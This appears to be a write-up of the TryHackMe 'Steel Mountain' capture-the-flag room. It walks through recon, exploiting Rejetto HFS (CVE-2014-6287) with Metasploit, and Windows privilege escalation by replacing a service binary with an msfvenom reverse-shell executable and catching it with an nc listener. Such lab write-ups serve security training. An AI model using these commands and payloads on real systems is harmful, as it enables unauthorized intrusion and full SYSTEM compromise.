 # Steel mountain

First what I like to do with any machine turn on nmap and gobuster and let them run in the background I have my nappy.sh and gobuddy-dir.sh "scripts"

nappy.sh - *nmap -sS -sV -A -O $IP*

gobuddy-dir.sh - *gobuster dir -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt*

I usually use seclists for this you can find them here - https://github.com/danielmiessler/SecLists

While our scans are going in the background we can take a look at our target through the browser


I tried to zoom in here to see if his name is written on the shirt but no luck,
My next try was going to View source for this page and there it was /img/BillHarper.png
So there we have our first answer.

1. Who is the employee of the month?

   **bill harper**


   2. Scan the machine with nmap. What is the other port running a web server on?
   Good thing we got the nmap scan already running so we know the answer to this is

 **8080**

HFS IMG

3. Take a look at the other web server. What file server is running?

  So in the screen shot above we can see it is a HttpFileServer 2.3
but that is only the part of the server. If you don't seer this HttpFileServer 2.3. below the Actions the first time you go to the link, feel free to click around a bit or refresh and it will appear.
When you actually click on it it will take you this link - http://www.rejetto.com/hfs/

  So with this we now have the whole answer:

  **Rejetto http file server**
4. What is the CVE number to exploit this file server?

  We can either use google (exploit-db) or searchsploit to find exploits for this HFS:
  You can just google CVE rejetto http file server and the firs exploit-db link I got is this:

  https://www.exploit-db.com/exploits/39161

  So the answer is:  **2014-6287**

  The command for searchsploit is:
 searchsploit rejetto http file server

Here we can see searchsploit results and we can see the **39161.py** that we will need for this machine a bit later, so you can just copy that python script to your working directory so you don't have to look for it later.

SEARCHSPLOIT img

 *cp /usr/share/exploitdb/exploits/windows/remote/39161.py Desktop/thm/steelmountain/* - this will copy the python script.

 5. Use Metasploit to get an initial shell. What is the user flag?

 Okay we will first start metasploit by running msfconsole in our terminal
 There in the msfconsole you will use *search* command is msfconsole to find the exploit that we need:
  *search rejetto http file server* - we only got one exploit so we will go and use that one with the command *use 0*
 out default payload is windows/meterpreter/reverse_tcp which is what we need so we'll leave it as is

 MSF SEARCH img

 Then you'll type in *options* to see what we have to configure in order for this payload to work:
 OPTIONS img

 ##### What we need to configure:

 RHOST & RPORT  - These will be our target machine IP address and the port 8080

 SRVHOST & SRVPORT - these will be your attacking machine IP address (usually tun0 interface, you can find this via *ip addr* command), and for the port you can put any port that isn't already busy, but I would recommend a higher number port e.g. 4848

 Also you have to configure the two for the payload as well:
 LHOST & LPORT, there I configured the same IP address (our attacking machine, tun0) but a different port then what we configured for the the **SRVPORT**

 We use the prefix set e.g. *set LPORT 4848* for all the options.

 After we set up everything you can just type *run* or *exploit* and you should get a meterpreter shell.
 There we can use the *migrate* command to migrate to a more stable process so our session doesn't break in the middle of our priv esc :D

 MIGRATE IMG

 To see the processes you can type *ps* and migrate using the process PID number, here I migrated to the explorer.exe process using its PID.

  After this we can go and fetch the user flag, first we have to locate it the logical path is to go to the Users desktop and search there:

 USR FLAG img

 ### PRIVELEGDE ESCALATION:

 First what we need to do is download the **PowerUp.ps1** script to our working directory on our attacking machine since this is what we will be using for our priv ecs on the target machine.

  You can find the script here - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

 When you use the *wget* command be sure that you click RAW for the script and then *wget* it like that to your machine
 The full command is:

  *wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1*

  Then on our meterpreter shell we use upload to get it onto the windows target machine so:
  *upload PowerUp.ps1*  (if this doesn't work use the full path to the file e.g. /home/user/Desktop/PowerUp.ps1)

  So now we have the script on Bills desktop.

  In order for us to use this powershell script we have to first prepare so we will type *load powershell* to load the powershell extension and than *powershell_shell* to get our shell
  so we can actually use the script * . .\PowerUp.ps1 * and after that Invoke-AllChecks
 It should look like this:

 LOAD POWESHELL img

 Pay close attention to the **CanRestart** option that is set to true. What is the name of the name of the service which shows up as an _unquoted service path_ vulnerability?

 So basically the first service that appears: **AdvancedSystemCareService9** is the one that has CanRestart marked True and it is located under C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe

 We have the explanation in the room why the CanRestart is important:

 The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

 Use msfvenom to generate a reverse shell as an Windows executable. The command I used was:

  *msfvenom -p windows/shell_reverse_tcp LHOST=10.14.7.187 LPORT=5556 -f exe -o ASCService.exe*

  -p is for payload and here we specify the payload that we wanna use

  LHOST and LPORT is the IP of your attacking machine and the port of your choosing

  -f is type of file, here we specified exe

  -o the output file, I named it the same as the exe of the service we want to copy over.

  So we'll go to our folder on the target machine where the exe file of the service is stored

  *cd C:/"Program Files (x86)"/IObit/"Advanced SystemCare"/*

  We have to put quotations because of the spaces, we can't cd without them into these folders.

  When we're there we will stop the ASCService.exe, but first type in *shell* to get a shell where we can actually stop the service since I haven't found a way to do this from meterpreter:

  After you get the shell type:  *net stop AdvancedSystemCareService9*

  STOP SERVICE img

  Then we leave this shell so we can upload our payload through meterpreter and get back the shell. You do this with CTRL+C or *exit*

  Before we start the service again make sure you have a nc listener on your attacking machine with the port you defined  while making the payload in msfvenom (LPORT option):
  In my case it's:

  *nc -lvnp 5556*

  And then go to the targer machine go ahead and type *shell* first and then start the service with

  *net start AdvancedSystemCareService9*

  And voilà you will get a reverse shell.

  When you type *whoami* you will se you are **nt authority\system** which is root for windows.

  From there you can go ahead to the Administrators desktop and look for the flag.
 ADMIN F
